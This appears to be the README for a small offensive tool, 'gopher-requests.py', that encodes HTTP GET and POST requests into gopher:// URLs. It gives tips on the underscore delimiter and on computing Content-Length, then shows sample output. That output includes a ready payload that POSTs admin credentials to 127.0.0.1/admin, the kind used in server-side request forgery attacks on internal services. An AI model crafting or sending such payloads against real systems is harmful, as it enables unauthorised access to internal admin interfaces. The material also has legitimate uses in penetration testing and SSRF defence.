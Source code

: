 Gopher HTTP requests (POST/GET) | By: Liquidsky

URL: gopher: // <host>:<port>/<gopher-path>_ followed by TCP data stream

Be careful not to forget the underscore "_" at the end. The TCP data stream begins after the underscore "_". If you do not add this "_", the message received by the server will not be complete. You can write this character at will.

Tip for determing POST request length:

└─$ echo "username=admin&password=admin" | wc -c 
 
 Output= 30
 
 Subtract 1 from this result. = 29 -> Then add this to content length header.

Example output:

└─$ python3 gopher-requests.py

    1. Gopher GET Request
    2. Gopher POST Request
    
[*] Please select GET (1) or POST (2) request: 1

[x] Gopher GET Request
gopher://localhost:80/_GET%20/%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0A

[!] Happy Hacking ^_~

    1. Gopher GET Request
    2. Gopher POST Request
    
[*] Please select GET (1) or POST (2) request: 2

[?] Informational: The four HTTP headers above are required for POST requests, namely POST, Host, Content-Type and Content-Length. If it is missing, an error will be reported, but GET does not use it.

[x] Gopher POST Request
gopher://127.0.0.1:80/_POST%20/admin%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2029%0D%0A%0D%0Ausername%3Dadmin%26password%3Dadmin%0D%0A

[!] Happy Hacking ^_~
